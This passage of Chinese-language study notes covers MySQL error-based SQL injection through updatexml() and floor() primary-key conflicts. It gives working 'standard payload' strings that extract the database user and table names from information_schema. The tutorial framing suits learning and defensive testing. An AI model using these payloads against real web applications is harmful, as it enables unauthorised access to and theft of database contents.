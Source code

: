 ###### ②updatexml

updatexml(arg1,arg2,arg3)

* arg1为**xml文档**，arg2为**指定位置xpath的字符串**，arg3为String格式的**新值**

* mysql5.1.5及以上版本

* 标准payload

  ```
  1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+	//使用0x7e是为了避免查找出的数据被替换掉
  
  1' and updatexml(1,arg2,1) --+
  arg2 = concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```
  
  <img src="../../images/8-20-morning/updatexml报错注入.png" alt="updatexml报错注入" style="zoom:67%;" />

##### b. 主键冲突

* mysql版本属于[5.15，~]

###### ①floor

* 返回**向下取整的整数**，**只返回**arg1的**整数部分**

* mysql5.0及以上版本，<8.0

  [【web安全】——floor报错注入-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/128569910)

* 标准payload

  ```
  1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) -- qwe
  
  1' and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) -- qwe
  
  ```
  
  <img src="../../images/8-20-morning/floor报错注入.png" alt="floor报错注入" style="zoom: 67%;" />
  